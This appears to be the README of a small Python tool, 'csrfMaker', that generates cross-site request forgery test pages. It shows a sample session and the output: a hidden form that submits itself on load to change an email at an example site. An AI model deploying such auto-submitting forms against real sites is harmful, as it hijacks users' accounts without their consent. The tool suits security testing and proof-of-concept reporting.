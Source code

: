 # csrfMaker

## overview
very basic python script for creating csrf html pages

## Installation
the script hasn't any third party dependency so you can esaily clone and run the code :
```sh
> git clone https://github.com/theN0b0dy/csrfMaker.git
> cd csrfMaker
```

## Usage
the script hasn't any third party dependency so you can esaily run the code :
```sh
> ./csrfMaker
Enter the action url for your form : https://example.com/change-email
Enter Form id (default: form) :
Enter the Method (GET,POST,PUT,DELET, ... default:POST ) :
Enter the name of your 1 input form(enter done for break) : email
Enter the value of your 1 input form : test@email.com
Enter the type of your 1 input form (default: hidden) :
Enter the id of your 1 input form (default: [your_input_name]) :
Enter the name of your 2 input form(enter done for break) : csrf
Enter the value of your 2 input form :
Enter the type of your 2 input form (default: hidden) :
Enter the id of your 2 input form (default: [your_input_name]) :
Enter the name of your 3 input form(enter done for break) : done
Enter your script(defualt:[just submit the form] :
Enter the name of your html template(default: csrf.html) : example.html
your example.html succesfully created.
```
the output file is :
```html
<html>
	<form action='https://example.com/change-email' method='POST' id='form'>
		<input type='hidden' name='email' value='test@email.com' id='email'/>
		<input type='hidden' name='csrf' value='' id='csrf'/>
	</form>
	<script>document.getElementById('form').submit();</script>
</html>
```
